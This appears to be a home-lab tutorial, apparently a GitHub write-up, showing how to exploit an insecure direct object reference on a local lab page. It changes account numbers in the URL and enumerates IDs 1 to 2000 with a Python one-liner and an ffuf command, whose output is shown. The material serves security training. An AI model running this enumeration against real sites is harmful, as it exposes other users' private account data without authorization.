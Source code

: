 # IDOR - Insecure Direct Object Reference

- On login to the account we have got our account details.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/53d24180-6d47-4991-919e-08d247f586d8)

- On a quick look at the URL we have got an account with a number.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/2c81666e-d727-4d30-bbb4-eae8e06d3403)

- by changing the number to any random characters we got the details of another user easily.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/21c87ca6-435a-4cb5-926f-0d4463737e42)

- To get details of all users we will make a file of 1-2000 numbers to exploit the account.
- For this, we will use Python code to create a file of numbers.

```python
python3 -c 'for i in range (1,2001): print (i)' > num.txt
```
- Now, we will use a tool named ffuf.
- Command: `ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w num.txt -fs 849 | grep FUZZ`

```bash
└─$ ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w num.txt -fs 849 | grep FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/labs/e0x02.php?account=FUZZ
 :: Wordlist         : FUZZ: /home/singhx/labs/PEH/XSS/num.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 849
________________________________________________

    * FUZZ: 1002
    * FUZZ: 1000
    * FUZZ: 1001
    * FUZZ: 1003
    * FUZZ: 1005
    * FUZZ: 1006
    * FUZZ: 1008
    * FUZZ: 1009
    * FUZZ: 1011
    * FUZZ: 1007
    * FUZZ: 1012
    * FUZZ: 1013
    * FUZZ: 1016
    * FUZZ: 1010
    * FUZZ: 1014
    * FUZZ: 1015
    * FUZZ: 1017
    * FUZZ: 1018
    * FUZZ: 1019
    * FUZZ: 1004
:: Progress: [2000/2000] :: Job [1/1] :: 51 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- Now, we can copy the account number and see the account details of the user.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/c7dc4444-5e4a-4f88-9bb3-4a84df4dc08f)

- Similarly, we can check for other accounts too.
